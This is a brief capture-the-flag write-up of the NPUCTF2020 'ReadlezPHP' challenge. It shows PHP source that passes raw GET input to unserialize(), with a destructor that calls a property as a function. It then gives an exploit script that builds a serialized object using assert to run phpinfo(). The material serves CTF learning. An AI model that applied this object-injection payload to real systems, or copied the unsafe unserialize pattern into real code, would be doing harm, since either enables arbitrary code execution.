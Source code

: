 ### ****[NPUCTF2020]ReadlezPHP****

F12

![Untitled](PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20d90af503f8914fd0b2d3439c30147b00/Untitled%209.png)

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

EXP

```php
<?php  

class HelloPhp
{
    public $a = "phpinfo()";
    public $b = "assert";
}

$a = serialize(new HelloPhp);
echo $a;
?>
```
